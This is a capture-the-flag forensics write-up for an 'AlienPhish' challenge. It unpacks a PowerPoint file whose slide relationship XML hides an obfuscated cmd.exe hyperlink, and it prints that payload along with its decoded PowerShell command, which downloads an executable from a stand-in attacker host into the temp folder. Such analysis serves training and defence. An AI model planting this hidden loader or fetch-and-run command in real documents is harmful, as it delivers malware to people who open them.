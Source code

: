 # **Forensics**

## 0x00 AlienPhish
---
_We were given a Microsoft Powerpoint Presentation [file](/Alien%20Weaknesses.pptx) with **.pptx** extension._

### **Solution**
---
Basically, Microsoft fies with __.*x__ extension like **.docx**, **.pptx**, **.xlsx**, etc are compressed files, that means they can be opened with any zip archive software. 

A malicious code (generally in VBA) can be hidden inside these files.

>My first step was to open this ppt file using a zip archive. We can also use **_binwalk_** to extract the data, but I will stick to *WinRar*.

![zip](S0.jpg)

As I see a lot of XML files, looking at rels files makes sense as to see the relationships.

>Opening slide1.xml.rels file gives [^1] us:
```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationship Id="rId2" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/hyperlink" Target="cmd.exe%20/V:ON/C%22set%20yM=%22o$%20eliftuo-%20exe.x/neila.htraeyortsed/:ptth%20rwi%20;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'%20+%20pmet:vne$%20=%20o$%22%20c-%20llehsrewop&amp;&amp;for%20/L%20%25X%20in%20(122;-1;0)do%20set%20kCX=!kCX!!yM:~%25X,1!&amp;&amp;if%20%25X%20leq%200%20call%20%25kCX:*kCX!=%25%22" TargetMode="External"/><Relationship Id="rId4" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/hyperlink" Target="cmd.exe" TargetMode="External"/></Relationships>
```
[^1]: NOTE: I have only included the relevant XML code from it.
You can find the full file [here](/Alien%20Weaknesses/slide1.xml.rels).

>We can clearly see that it is trying to execute CMD commands. The command is url encoded, the decoded command is :
```cmd
cmd.exe /V:ON/C"set yM="o$ eliftuo- exe.x/neila.htraeyortsed/:ptth rwi ;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'   pmet:vne$ = o$" c- llehsrewop&amp;&amp;for /L %X in (122;-1;0)do set kCX=!kCX!!yM:~%X,1!&amp;&amp;if %X leq 0 call %kCX:*kCX!=%""
```
>We can see `for /L%X in (122;-1;0)` reverses the string. We can use python to do the same.
```python
 x = "o$ eliftuo- exe.x/neila.htraeyortsed/:ptth rwi ;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'   pmet:vne$ = o$"
 print(x[::-1])
```
It gives `"$o = $env:temp   'Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM_Pz99.exe'; iwr http:/destroyearth.alien/x.exe -outfile $o"`

Everything here makes sense except *some_random_string.exe*.
>Decoding it using online [base64 decoder](www.base64decode.org/) gives us the flag.

>**Flag:**
*CHTB{pH1sHiNg_w0_m4cr0s???}*
